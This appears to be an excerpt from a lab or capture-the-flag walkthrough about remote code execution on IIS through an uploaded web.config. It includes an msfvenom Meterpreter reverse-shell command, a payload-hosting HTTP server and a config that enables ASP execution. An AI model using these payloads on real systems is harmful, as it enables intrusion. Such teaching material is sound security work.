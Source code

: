 So, how are we going to execute our payload?  First, we need a payload.  I will use meterpreter for this example.  I tried using a PowerShell payload, but I could not get that to execute on the box.  An exe payload ended up working for me.  In the real world, this payload probably would have lit up anti-virus or an IDS.  However, for learning, this will work.  I used msfvenom to generate the payload:
```bash
# This box is likely 64-bit, so we will use a 64-bit payload (windows/x64/meterpreter/reverse_tcp)
# If you want to be safe, use the 32-bit payload (windows/meterpreter/reverse_tcp)
# LHOST and LPORT are the IP and port you will listen on respectively.  I chose a random high port (45125)
# -f exe tells msfvenom to output an exe
# We will call our payload iis.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.38 LPORT=45125 -f exe > iis.exe
```

Now that we have a payload, how are we going to get it onto the box?  Since we can execute arbitrary classic ASP code, we can set up an HTTP server on our box and have web.config download and execute our payload.  We can set up a quick HTTP server using python:
```bash
# cd to the directory you want to serve from
# 80 is the port we will serve on
python -m SimpleHTTPServer 80
```

I found some code on StackOverflow <sup>[4]</sup> to download and execute a file and modified it for our environment.  This is a modified version of the web.config file we have been working with.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <!-- Allow web.config to read files, execute scripts, and write directories files -->
      <handlers accessPolicy="Read, Script, Write">
        <!-- Add a handler named web_config (name="web_config"):
             That applies to .config files (path="*.config")
             and all HTTP verbs like GET, POST, and HEAD (verb="*")
             Use the IsapiModule to handle .config files (modules="IsapiModule").  The ISAPI module handles ASP scripts and pages.
             Use asp.dll (scriptProcessor="%windir%\system32\inetsrv\asp.dll") to process scripts.  asp.dll handles classic ASP scripts.
             
             resourceType="Unspecified" lets us apply this mapping to a file name or extension that does not exist on disk
             requireAccess="Write" lets this handler write files (which we will need in order to execute files on the remote box)
             preCondition="bitness64" tells the handler that it should only run in 64-bit mode (in this case, our script processor is a 64-bit DLL on an x64 system, so we want to make sure the architectures match)
         -->
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
```

[1]: https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/the-configuration-system-in-iis-7 "The Configuration System in IIS 7"
[2]: https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/ "RCE by uploading a web.config - 003Random's Blog"
[3]: https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ "Upload a web.config File for Fun & Profit - Soroush Dalili"
[4]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/ "Handlers <handlers> | Microsoft Docs"
[5]: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/add "Adding Handlers <add> | Microsoft Docs"
[6]: https://msdn.microsoft.com/en-us/library/2wawkw1c(v=vs.100).aspx#Anchor_1 "Web Site File Types - MSDN"
[7]: https://stackoverflow.com/questions/10496675/download-files-from-url-using-classic-asp "StackOverflow - Download Files From URL Using Classic ASP"